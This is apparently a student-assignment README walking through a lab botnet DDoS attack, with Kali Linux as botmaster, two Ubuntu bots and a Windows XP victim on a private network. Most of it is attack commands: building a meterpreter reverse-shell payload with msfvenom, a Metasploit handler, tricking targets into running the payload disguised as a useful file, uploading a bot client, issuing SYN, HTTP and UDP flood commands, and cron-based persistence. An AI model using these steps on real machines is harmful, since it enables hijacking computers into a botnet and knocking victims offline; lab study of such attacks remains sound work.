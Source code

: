 # DDoS-Attack-using-Botnets
Developed BotNet Scenario using single BotMaster and two Bots that gets involved in DDoS attack

Implementation of a Distributed Denial of Service (DDoS) Attack using Kali Linux as Master and two Ubuntu machines as 2 bots and Windows XP as Victim

To perform the attack, the steps are to be followed

1. Setup a Kali Linux Machine in local area network. Here it is 172.16.28.4
2. Create a venom file using msfvenom using the command and start apache server
    > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP of the machine] LPORT=[Port for connection] -f elf -o [payload].bin
3. Setup metasploit to reviece the reverse tcp connection using the following commands
	> msfconsole
	
	> use exploit/multi/handler
	
	> set payload linux/x86/meterpreter/reverse_tcp
	
	> set lhost [IP of the machine]
	
	> set lport [Port for connection]

	> show options
	
	> exploit
	
4. Wait for a connection
5. Setup Ubuntu machine and then configure them in the local area network. Here it is 172.16.28.6 and 172.16.28.8
6. So here when bot downloads some other application along with the venom file we created will be installed. Thinking this as a useful file bot machine might execute the file which gives shell access to the master  thus creating a connection
7. After getting a connection, check the details of the machine using 
	> getuid    
	  // This returns username and computer name.
    
	> pwd  
	  // To know the path of the client to check for existing directory
8. Upload the attack script to the system
	> upload [file path which has to be uploaded(tcp_client.py)] [directory of the client to which to be uploaded]  
9. After having enough bots, run the server program for the attack
	> python3 tcp_server.py
10. In metasploit, run the shell commands to run the client program
	> shell

	> python3 tcp_client.py
11. Same above methodology is followed for all other bots.
12. Send commands to the bots for the attack
	> SEND [Type of Attack] [Victim IP] [Count]
	Type of attack -> TCP-SYN / HTTP / UDP
13. Stop the attack when ever necessary using stop command
	> stop
14. Open wireshark in victim machine to capture these packets
15. Presently it is not persistent connection so once connection is lost again the bot has to download the file and execute. So to make it persistent we need to keep it in startup folder so everytime system boots this code is executed.
	  > sudo cp -i /path/to/yourscirpt.py /bin
	  
    > sudo crontab -e
	  
      // Scroll down to bottom and add the below line
	  
    > @reboot python3 /bin/your_script.py &
	  
      // Note that & at the end means that the command runs in background and so it doesn't stop booting process
    
16. Now finally the connection is made persistent. That's it for this assignment.
